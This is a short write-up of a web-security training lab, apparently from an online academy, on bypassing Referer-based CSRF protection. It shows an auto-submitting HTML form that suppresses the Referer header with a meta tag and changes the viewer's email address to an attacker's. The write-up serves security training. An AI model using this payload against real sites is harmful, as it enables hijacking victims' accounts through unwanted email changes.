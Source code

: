 # Lab: CSRF where `Referer` validation depends on header being present

> Lab Objective: use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

- Login using provided credentials `wiener:peter`, then inspect login's response and request.
  ![1st screenshot](./attachments/1.png)

- You'll notice that the website explicitly restrict SameSite to None `SameSite=None`.

- Try Change Email functionality, you'll notice that the website only checks on the `Referer` request header to validate the request.

  - Normal Change Email Request:
    ![2nd Screenshot](./attachments/2.png)
  - When changing the `Referer` request header to `https://hacker.com`:
    ![3rd Screenshot](./attachments/3.png)

- But when removing the whole `Referer` request header, the request is accepted and processed as if the request header is present.
  ![4th Screenshot](./attachments/4.png)

- In order to not include the `Referer` request header in your change email payload, add this line of html to your exploit code: `<meta name="referrer" content="never">`

- The Payload:

```html
<html5>
    <head>
        <meta name="referrer" content="never">
    </head>
  <body>
    <form action="https://0a370099037a6adf806f5d1c00390028.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@gmail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- Finally, the lab is solved successfully.
  ![5th Screenshot](./attachments/5.png)
